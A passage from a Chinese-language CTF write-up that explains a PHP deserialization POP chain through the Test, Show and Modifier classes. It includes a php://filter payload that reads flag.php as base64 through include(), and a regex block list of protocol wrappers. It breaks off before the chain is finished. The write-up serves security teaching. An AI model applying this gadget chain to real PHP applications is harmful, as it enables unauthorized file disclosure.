 <font style="color:#000000;">再看Test类</font>

```php
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

在<font style="color:#601BDE;">__get</font>魔术方法中存在$function()可以将对象当成函数来使用 我们只需$p=new Modifier即可触发

但由于<font style="color:#601BDE;">__get</font><font style="color:#000000;">魔术方法在调用不可访问、不存在的对象成员属性时触发 我们还需寻找触发__get魔术方法的方法</font>

<font style="color:#000000;">最后看Show类</font>

```php
class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
```

由于类中的<font style="color:#601BDE;">__ToString()</font>魔术方法 调用了source属性 并且Test类中没有source属性 所以我们要想触发<font style="color:#601BDE;">__get</font>魔术方法<font style="color:#000000;">需要使得$</font><font style="color:#601BDE;">str=new Test </font><font style="color:#000000;">要想触发</font><font style="color:#601BDE;">__ToString</font><font style="color:#000000;">魔术方法需要把对象当成字符串调用 正好Show类的construct方法存在字符串拼接 所以我们需将</font><font style="color:#601BDE;">$source=new Show</font>

<font style="color:#000000;">接下来将代码复制到本地 并注释掉一些无关的东西开始构建pop链</font>

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
//    public function append($value){
//        include($value);
//    }
//    public function __invoke(){
//        $this->append($this->var);
//    }
}
```